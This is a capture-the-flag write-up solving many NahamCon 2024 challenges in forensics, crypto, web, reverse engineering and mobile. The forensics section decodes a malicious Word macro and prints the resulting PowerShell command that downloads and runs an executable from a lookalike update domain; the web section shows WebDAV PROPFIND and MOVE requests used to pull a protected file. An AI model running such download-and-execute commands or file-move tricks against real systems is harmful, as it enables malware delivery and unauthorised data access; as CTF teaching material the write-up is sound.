




# Macro Madness #1 - The Breach (Forensics, Hard)  
```
Malware was downloaded and ran on one of our executive's workstations. We need your help figuring out where the malware came from, and what it did. IT was able to compile every email attachment containing macros that was received the day of the breach. Find the macro that bypassed antivirus, and figure out what it did.
According to threat intelligence, we suspect the hackers used a large volume of benign macros so a more advanced, malicious one would blend in.
```   

We are provided with a zip file. On unzipping the zip file on windows, defender automatically detects the malware in all the files except for one.  
In the description it is stated that only one bypasses the malware and we have to see what it did. So, to extract the macro from the word doc that remained, I used oletools. It gave the pcode.  
```
Line #0:
        FuncDefn (Function Sleep(ByVal mili As Long) As Long)
Line #1:
Line #2:
        FuncDefn (Sub AutoOpen())
Line #3:
        ArgsCall MyMacro 0x0000
Line #4:
        EndSub
Line #5:
Line #6:
        FuncDefn (Sub Document_Open())
Line #7:
        ArgsCall MyMacro 0x0000
Line #8:
        EndSub
Line #9:
Line #10:
        FuncDefn (Function achieve(believe))
Line #11:
        Ld believe
        LitDI2 0x0010
        Sub
        ArgsLd Chr 0x0001
        St achieve
Line #12:
        EndFunc
Line #13:
Line #14:
        FuncDefn (Function retrieve(relieve))
Line #15:
        Ld relieve
        LitDI2 0x0003
        ArgsLd Left 0x0002
        St retrieve
Line #16:
        EndFunc
Line #17:
Line #18:
        FuncDefn (Function perceive(deceive))
Line #19:
        Ld deceive
        Ld deceive
        FnLen
        LitDI2 0x0003
        Sub
        ArgsLd Right 0x0002
        St perceive
Line #20:
        EndFunc
Line #21:
Line #22:
        FuncDefn (Function receive(conceive))
Line #23:
        Do
Line #24:
        Ld grieve
        Ld conceive
        ArgsLd retrieve 0x0001
        ArgsLd achieve 0x0001
        Add
        St grieve
Line #25:
        Ld conceive
        ArgsLd perceive 0x0001
        St conceive
Line #26:
        Ld conceive
        FnLen
        LitDI2 0x0000
        Gt
        LoopWhile
Line #27:
        Ld grieve
        St receive
Line #28:
        EndFunc
Line #29:
Line #30:
        FuncDefn (Function MyMacro())
Line #31:
        Dim
        VarDefn thieve (As String)
Line #32:
        Dim
        VarDefn sleeve (As String)
Line #33:
Line #34:
        LitStr 0x0306 "12812713511713013112011712412404805608...."
        St thieve
Line #35:
        Ld thieve
        ArgsLd receive 0x0001
        St sleeve
Line #36:
        Ld sleeve
        Ld reprieve
        Ld naive
        Ld believe
        LitStr 0x0027 "103121126067066111096130127115117131131"
        ArgsLd receive 0x0001
        LitStr 0x001B "135121126125119125132131074"
        ArgsLd receive 0x0001
        ArgsLd GetObject 0x0001
        ArgsMemLd Get 0x0001
        ArgsMemCall Create 0x0004
Line #37:
Line #38:
        EndFunc
```  
In this pcode, the decryption of the above command takes place by taking every three letters from the string and shifting it left by 16. I wrote a program to automate the above shifting. 

```py
def decode(cipher):
    decodedString = ""
    for i in range(0, len(cipher), 3):
        decodedString += chr(int(cipher[i:i+3]) - 16)
    return decodedString

print(decode("128127135117130..."))
```

On decoding the given string, we get the command: 
```sh
powershell (Invoke-WebRequest 'http://vvindowsupdate.com:8080/update' -UseBasicParsing -Headers @{'heartbeat'='9885b80063bb7ba74f75b6f8aff291bc91cfa8eb77d942d433c9178aa9e99c6f'} -OutFile 'C:\Windows\Tasks\ChromeUpdate.exe'); C:\Windows\Tasks\ChromeUpdate.exe
```  

On getting the response headers via curl, we get the first flag.  

```
└─$ curl -X GET 'http://vvindowsupdate.com:8080/update' -H 'heartbeat: 9885b80063bb7ba74f75b6f8aff291bc91cfa8eb77d942d433c9178aa9e99c6f' -i
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.12.3
Date: Sun, 26 May 2024 13:21:44 GMT
Content-Disposition: attachment; filename=RansomwareUsingAES-CTR.exe
Content-Type: application/x-msdos-program
Content-Length: 10589460
Last-Modified: Wed, 22 May 2024 21:13:28 GMT
Cache-Control: no-cache
ETag: "1716412408.7779915-10589460-4089187576"
Date: Sun, 26 May 2024 13:21:44 GMT
Flag: flag{734b55......d5f5a5082a3920d6}
Connection: close
```

# Hashes on Hashes on Hashes (Scripting, medium)

```
I created a server to manage all my encrypted data from my lucrative ransomware business. It's still in development, but I should be okay as long as.. wait, what? Somebody leaked a log file??
```
Two files were attached. A log file and server.py file.

Server.py
```py
import socket
import base64
from hashlib import md5
from datetime import datetime

host = '0.0.0.0'
port = 9001

class log:
    @staticmethod
    def print(message):
        with open('./decryption_server.log', 'a') as f:
            now = datetime.now()
            f.write(now.strftime("%d/%m/%Y %H:%M:%S") + "\t")
            f.write(message + '\n')    

def decrypt(encrypted):
    key = open('key.txt').read()
    key = key.strip()
    log.print("Key loaded for encrypted message")

    factor = len(encrypted) // len(key) + 1
    key = key * factor
    log.print(f"Key expanded by factor of {factor}")
    key_bytes = key.encode()

    enc_bytes = base64.b64decode(encrypted)
    dec_bytes = bytearray()

    for i in range(len(enc_bytes)):
        dec_bytes.append(enc_bytes[i] ^ key_bytes[i])
        log.print(f"Partial message digest is {md5(dec_bytes).hexdigest()}")
    decrypted = dec_bytes.decode()
    log.print("Message fully decrypted, ready to send...")
    return decrypted

def main_loop():
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((host, port))
    log.print(f"Server listening on host {host} and port {port}")
    
    while True:
        s.listen(1)
        log.print("Listening for connection...")

        c_soc, addr = s.accept()
        log.print(f"Connection received from {addr}")

        ciphertext = c_soc.recv(1024).decode().strip()
        log.print(f"Received encrypted message {ciphertext}")

        plaintext = decrypt(ciphertext)
        c_soc.sendall(plaintext.encode())
        log.print(f"Decrypted message sent!")


if __name__ == '__main__':
    main_loop()
```

We were given the logs of the above server.



Since MD5 is a one way hash, it can't be decrypted.  
On analyzing the server.py it was obvious that the the encryption is done letter by letter. So we can bruteforce each letter and compare the hash.  
So, I wrote a script for the same.

script.py

```py
from hashlib import md5

logs = open('decryption_server.log', 'r').read().split('\n')
md5s = []

message_details = {}

for log in logs:
    if 'Connection received from' in log:
        if not message_details:
            continue
        md5s.append(message_details)
        message_details = {}
    if 'Received encrypted message' in log:
        message_details['encrypted'] = log.split(' ')[-1]
    if 'Partial message digest is' in log:
        if 'md5' not in message_details:
            message_details['md5'] = []
        message_details['md5'].append(log.split(' ')[-1])
if message_details:
    md5s.append(message_details)

for message in md5s:
    cipher = message['encrypted']
    md5s = message['md5']
    text = ''
    for partial in md5s:
        for char in range(256):
            if md5((text + chr(char)).encode()).hexdigest() == partial:
                text += chr(char)
                break
    print("Flag:", text)
```
And I had the flag.

# The Davinci Code (Web, Medium)
```
Uhhh, someone made a Da Vinci Code fan page? But they spelt it wrong, and it looks like the website seems broken...
```

On opening the url, a web page is visible with code button. On clicking the code button, we recieve a debug output that the html template is not found. The debug also shows some lines of code above and below where the error had occured. In those lines, it was visible that the root directory allowed for a PROPFIND command, indicating this is a webdav server.  
On running `curl -X PROPFIND -H "Depth: 1" http://challenge.nahamcon.com:32400/` . An xml is returned with the list of directories and files.
  
On exploring the directories using the above command. I found the source code of the server in static directory and app.py.backup. On downloading it via the url, I got the source file. 

On analyzing the app.py it was visible that we could also use MOVE command. Also, the server returned any file that was requested directly from the static directory without modifying.  
 
When I had ran the PROPFIND command, I found the flag directory `/the_secret_dav_inci_code`. On running it again on this directory, `flag.txt` was visible. I ran the move command to move it to static directory and downloaded the flag  `curl -X MOVE -H 'Destination: static/flag.txt' 'http://challenge.nahamcon.com:32400/the_secret_dav_inci_code/flag.txt'`.


# Indicium (Machine Learning, Medium)

```
Rwa Kuv, if you catch my drift.

103, 109, 98, 104, 124, 99, 99, 50, 54, 53, 99, 101, 103, 49, 49, 51, 98, 55, 51, 49, 101, 99, 55, 54, 56, 99, 57, 101, 103, 57, 53, 98, 57, 56, 49, 55, 53, 126
```

It is a caesar cipher where the ascii code of the flag is shifted right by 1.
So shifting the numbers left by 1 and converting it to character, we get the flag.
# A Locked Box (Reverse Engineering, Medium)

```
I've got a box, but I think I've misplaced the key.
```

We are given a file `lockedbox`. I downloaded the file and ran the file command on it, it appears to be a self extracting archive.  
I first ran `chmod +x ./lockedbox` to give it execution permissions. 

On running `./lockebox`, we see a data integrity error. It is verifying the checksums. I ran binwalk to extract the files. 
`binwalk -e lockedbox `

binwalk extracts the lockedbox.py file. On running the file, we get the flag.


# What's in the box (Reverse Engineering, Medium)
```
I've got a box, and I just know there's a flag inside.
```


This is a similar one to locked box.   
First I ran `chmod +x ./thebox`.  
Then I ran `./thebox`.  
It seems to extract the files and then run a python script. It gave a import error. 
```
└─$ ./thebox       
Verifying archive integrity...  100%   MD5 checksums are OK. All good.
Uncompressing thebox  100%  
Traceback (most recent call last):
  File "/tmp/selfgz18425/thebox.py", line 2, in <module>
    import requests
ModuleNotFoundError: No module named 'requests'
```
Then on running `./thebox --help`. I get the following output.

```
Makeself version 2.5.0
 1) Getting help or info about ./thebox :
  ./thebox --help   Print this message
  ./thebox --info   Print embedded info : title, default target 
  .
  .
  .

 2) Running ./thebox :
  ./thebox [options] [--] [additional arguments to embedded script]
  with following options (in that order)
  --confirm             Ask before running embedded script
  --quiet               Do not print anything except error messages
  .
  .
  .
  --keep                Do not erase target directory after running
                        the embedded script
  .
  .
  --target dir          Extract directly to a target directory (absolute or relative)
                        This directory may undergo recursive chown (see --nochown).
```

It is possible to keep the extracted files. I ran `./lockedbox --keep --noexec` to extract the files and not run the program. The files are extracted to clean directory. 

```
└─$ ./thebox --keep --noexec 
Creating directory clean
Verifying archive integrity...  100%   MD5 checksums are OK. All good.
Uncompressing thebox  100%  
```

On running `ls`  
```
└─$ ls clean                                         
_packaged_startup.sh  requirements.txt  thebox.py
```

On running the python file, we are asked for a key.  
On opening the source code of the file, we can see the pin.  
```
└─$ tail -n 10 clean/thebox.py
if pin == "1234":
    print("Looks good to me...")
    print("I guess I'll generate a flag")

    req = requests.get("http://example.com")
    req.raise_for_status()

    print(FLAG_PREFIX % hashlib.blake2b((pin + "nahamcon").encode("utf-8")).hexdigest()[:32])
else:
    print("Bad pin!")                   
```
On running the ifle again and putting 1234 as pin, we get the flag.

# Encryption Server (Cryptography, Medium)
```
I read online it's bad to re-use the prime numbers in RSA. So, I made this server that randomly generates them for me.
```
`RSA_Encryption_Server.py` was attached.

```py
#!/usr/bin/python3

from secrets import randbits
from sympy import nextprime
import random

e = random.randint(500,1000)

def encrypt(inp):
	p = nextprime(randbits(1024))
	q = nextprime(randbits(1024))
	n = p * q
	c = [pow(ord(m), e, n) for m in inp]
	return [n, c]

def main():
	
	while True:
		print('Welcome to the Really Shotty Asymmetric (RSA) Encryption Server!')
		print('1: Encrypt a message')
		print('2: View the encrypted flag')
		print('3: Exit')
		
		inp = ''
		while (not ('1' in inp or '2' in inp or '3' in inp)):
			inp = input('> ')
		
		if('3' in inp):
			print('Goodbye!')
			exit()

		elif('1' in inp):
			plain = input('Enter a message, and the server will encrypt it with a random N!\n> ')
			encrypted = encrypt(plain)

		elif('2' in inp):
			data = open('flag.txt', 'r').read()
			data = data.strip()
			encrypted = encrypt(data)

		print('Your randomly chosen N:')
		print(f'> {encrypted[0]}')
		print('Your encrypted message:')
		print(f'> {encrypted[1]}')
		print('\n')

if(__name__ == '__main__'):
	main()
```

This is similar to Magic RSA but here the e is very large, so the value of n matters. We can encrypt a letter we know and find the value of e since it is only between 500-1000.  
I wrote a custom script to do the same. I saved the encoded flag in Ecrypted


# Hashes on Hashes on Hashes (Scripting, Medium)  
```
I created a server to manage all my encrypted data from my lucrative ransomware business. It's still in development, but I should be okay as long as.. wait, what? Somebody leaked a log file??
```  
Files `server.py` and `decryption_server.log` were attached.  

server.py
```py
import socket
import base64
from hashlib import md5
from datetime import datetime

host = '0.0.0.0'
port = 9001

class log:
    @staticmethod
    def print(message):
        with open('./decryption_server.log', 'a') as f:
            now = datetime.now()
            f.write(now.strftime("%d/%m/%Y %H:%M:%S") + "\t")
            f.write(message + '\n')    

def decrypt(encrypted):
    key = open('key.txt').read()
    key = key.strip()
    log.print("Key loaded for encrypted message")

    factor = len(encrypted) // len(key) + 1
    key = key * factor
    log.print(f"Key expanded by factor of {factor}")
    key_bytes = key.encode()

    enc_bytes = base64.b64decode(encrypted)
    dec_bytes = bytearray()

    for i in range(len(enc_bytes)):
        dec_bytes.append(enc_bytes[i] ^ key_bytes[i])
        log.print(f"Partial message digest is {md5(dec_bytes).hexdigest()}")
    decrypted = dec_bytes.decode()
    log.print("Message fully decrypted, ready to send...")
    return decrypted

def main_loop():
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((host, port))
    log.print(f"Server listening on host {host} and port {port}")
    
    while True:
        s.listen(1)
        log.print("Listening for connection...")

        c_soc, addr = s.accept()
        log.print(f"Connection received from {addr}")

        ciphertext = c_soc.recv(1024).decode().strip()
        log.print(f"Received encrypted message {ciphertext}")

        plaintext = decrypt(ciphertext)
        c_soc.sendall(plaintext.encode())
        log.print(f"Decrypted message sent!")


if __name__ == '__main__':
    main_loop()
```

decryption_server.log

```
20/05/2024 15:14:38	Server listening on host 0.0.0.0 and port 9001
20/05/2024 15:14:38	Listening for connection...
20/05/2024 15:14:42	Connection received from ('10.10.2.6', 50924)
20/05/2024 15:14:42	Received encrypted message GyseOBdHRQ49Mz1h
20/05/2024 15:14:42	Key loaded for encrypted message
20/05/2024 15:14:42	Key expanded by factor of 1
20/05/2024 15:14:42	Partial message digest is c1d9f50f86825a1a2302ec2449c17196
20/05/2024 15:14:42	Partial message digest is a64cf5823262686e1a28b2245be34ce0
20/05/2024 15:14:42	Partial message digest is 6b6e667a40e816c4da7bb4ab64cbb82b
.
.
.
20/05/2024 15:15:02	Received encrypted message FCscMQoGXUYTJDYgFzFKEzZEL3kYCBZKCWcSHQEDWQ49K1w=
20/05/2024 15:15:02	Key loaded for encrypted message
20/05/2024 15:15:02	Key expanded by factor of 2
20/05/2024 15:15:02	Partial message digest is dfcf28d0734569a6a693bc8194de62bf
20/05/2024 15:15:02	Partial message digest is c6a675552648c0becb8283f05c172483
20/05/2024 15:15:02	Partial message digest is 4804dc3c133b11589338a62893ae614c
20/05/2024 15:15:02	Partial message digest is 624aa1a206e09836e3c81ea95502f459
20/05/2024 15:15:02	Partial message digest is dc9eca234ddb7ab22cb994d2d65a9190
20/05/2024 15:15:02	Partial message digest is 5cb4c355ef76c07357dc7420a78224c8
.
.
.
```

The message was md5 encoded letter by letter so I could brute force it. I wrote the script for the same.  
```py
from hashlib import md5

logs = open('decryption_server.log', 'r').read().split('\n')
md5s = []

message_details = {}

for log in logs:
    if 'Connection received from' in log:
        if not message_details:
            continue
        md5s.append(message_details)
        message_details = {}
    if 'Received encrypted message' in log:
        message_details['encrypted'] = log.split(' ')[-1]
    if 'Partial message digest is' in log:
        if 'md5' not in message_details:
            message_details['md5'] = []
        message_details['md5'].append(log.split(' ')[-1])
if message_details:
    md5s.append(message_details)

for message in md5s:
    cipher = message['encrypted']
    md5s = message['md5']
    text = ''
    for partial in md5s:
        for char in range(256):
            if md5((text + chr(char)).encode()).hexdigest() == partial:
                text += chr(char)
                break
    print("Found:", text)
```  
And I got the flag.

```
Found: Hello there.
Found: General Kenobi, you are a bold one.
Found: Your move.
Found: You fool. I've been trained in your cryptography arts by Count Dooku!
Found: Attack, Kenobi! flag{a23f721aeff7........4015a54aa53}
Found: So uncivilized...
```


# Magic RSA (Cryptography, Easy)  

```
Here's an RSA challenge using the most magical number of all.
```  

We were given `output.txt` and `rsa_with_a_magic_number.py`

rsa_with_a_magic_number.py
```py
from secrets import randbits
from sympy import nextprime

e = 3

def encrypt(inp):
	p = nextprime(randbits(2048))
	q = nextprime(randbits(2048))
	n = p * q
	enc = [pow(ord(c), e, n) for c in inp]
	return [n, enc]

plaintext = open('flag.txt').read()

with open('output.txt', 'w') as f:
    data = encrypt(plaintext)
    f.write(f'Semiprime:\nN: {data[0]}\nCiphertext:\n')
    f.write(''.join(f'{b} ' for b in data[1]))
    f.write('\n\n')
```

Output.txt

```
Semiprime:
N: 292661735803169078279687796534368733968232 ....
Ciphertext:
1061208 1259712 912673 1092727 1860867 175616 ....
```  

It was running rsa algorithm on the characters, however, since e is very small i.e. 3 and the value of N is very large, it doesn't really matter what N is. We can directly take the `1/e`th power of each character in the cipher text. So I wrote a script to do the same.  
```py
cipher = "1061208 1259712 912673 1092727 1860867 175616 166375 941192 185193 1030301 941192 185193 912673 140608 175616 185193 140608 941192 970299 1061208 175616 912673 117649 912673 185193 148877 912673 125000 110592 1030301 132651 132651 1061208 117649 117649 1061208 166375 1953125"
cipher = cipher.split(" ")
cipher = [int(i) for i in cipher]
cipher = [int(i**(1/3)) +1 for i in cipher]
cipher = [chr(i) for i in cipher]
print("".join(cipher))
```  
And I got the flag.


# iPromise (Reverse Engineering, Easy)
```
Instead of making the next IPhone, I made this challenge. I do make a truthful promise though...

```

A file was attached IPromise. Static Analysis revealed that there was a decryption function. On running the file we get: 
```
```
This indicates that the flag is being decrypted in memory. To get the flag, I loaded the file in gdb.

On running `info functions`.  

  

`decryptIProimse` looks like the function where decryption is taking place.
I added a breakpoint to this function `break decryptIPromise` and ran the program. I then disassembled at the breakpoint.  

  

On analyzing the dump, it seems like that the flag is stored in memory address `0x404040` as the string encrypted in the end. I added a breakpoint before the return statement. `0x4010c1` and ran the program.  

I then printed the flag using `x/s`. 



# Buggy Jumper 1 (Mobile, Easy)
```
Buggy Jumper is a new mobile game that can be enjoyable for both gamers and hackers! There's a lot going on, can you get some of game's source code to see whats happening behind the scenes?
```   
File `com.nahamcon2024.buggyjumper.apk` was attached. This was made using godot engine. 

On decompiling the apk using [gdsdecomp](https://github.com/bruvzg/gdsdecomp). I could access the source code. There was a `flag.gd` file. The function name in it was the flag.  


# Buggy Jumper 2 (Mobile, Medium)

```
Buggy really wants the drip in the shop... Can you buy it for them?
```

I installed godot engine and ran the app. I modified the source code to change the score. Buying the drip in the shop required a certain score to be there. I logged the response to console. On modifying the score and running the app and buying the flag, I could see the flag on the screen and on the console.  

# Kitty Kitty Bang Bang (Mobile, Easy)

```
I found a cool android app to play with a cowboy cat! There's has to be more going on with the app I can't see on my screen...

```
File `com.nahamcon2024.kittykittybangbang.apk` was attached.

On decompiling the apk with jadx. I analyzed the files and could see that the flag was being logged on pressing the bang. So, I used logcat to see the device logs and got the flag.  

# Guitar (Mobile, Easy)  
```
Have you ever wanted to play the guitar on your phone? Here's a free app, with all guitar strings included for free!
```

File `com.nahamcom2024.guitar.apk` was attached.  

The description gave a hint with the keyword strings so on decompiling the apk using apktool, I started analyzing the strings.xml file in resources. It contained a key string with the flag.  


# iDoor (Web, Easy)

```
It's Apple's latest innovation, the "iDoor!" ... well, it is basically the Ring Doorbell camera, but the iDoor offers a web-based browser to monitor your camera, and super secure using ultimate cryptography with even SHA256 hashing algorithms to protect customers! Don't even think about snooping on other people's cameras!!
```  

On opening the url, we are presented with the camera feed along with camera id. The url looks encoded in some way. Since, it is mentioned that sha256 is used. I guessed that maybe the camera id is sha256 encoded in the url. On checking the sha256 of camera id, the guess was right. I checked all the hashes from 11 to 0. The camera at 0 showed the flag.

# All About Robots (Web, Easy)

```
Oh wow! Now you can learn all about robots, with our latest web service, All About Robots!!
```

Seeing the prompt it is guessable that it refers to the robots.txt file. On seeing the robots.txt file, we are shown a url `/your_flag_random.html`. On visiting the url shown, the flag is visible.


# Twine (Warmup)
```
Google tells me that twine means: "strong thread or string consisting of two or more strands of hemp, cotton, or nylon twisted together."
```  
A jpg file was attached, running strings and then grepping by the flag gave the flag.

# That's not by base (warmup)
```
Everyone knows about Base64, but do you know about this one?
```  
A string was given. The given string was encoded in base92, on decoding it, I got the flag.

# Uriel (warmup)

```
Uriel was browsing the web and he saw this big long blob of text in his address bar! He was telling me about it but I don't remember everything he said... I think he mentioned something like "it happened twice?"
```
A string was given.
```
%25%36%36%25%36%63%25%36%31%25%36%37%25%37%62%25%33%38%25%36%35%25%36%36%25%36%35%25%36%32%25%33%36%25%33%36%25%36%31%25%33%37%25%33%31%25%33%39%25%36%32%25%33%37%25%33%35%25%36%31%25%33%34%25%36%32%25%33%37%25%36%33%25%33%36%25%33%33%25%33%34%25%36%34%25%33%38%25%33%38%25%33%35%25%33%37%25%33%38%25%33%38%25%36%34%25%36%36%25%36%33%25%37%64
```

Given the name of the challenge and the format of the string, it was obvious that it is url encoded. On URL decoding it twice, I got the flag.


# EICAR (Warmup)

```
What is the MD5 hash of this file?
```

A file was attached.    

Calculated the md5 hash of the file and submitted it in the specified format.

# Copypasta (Warmup)

```
You know those funny Internet messages that everybody likes to copy and paste? Yeah....

Turns out they make a good Warmups CTF challenge, too!
```
On connecting to the server via netcat, A text was presented. On copying the text and pasting it in notepad, the flag was visible.
 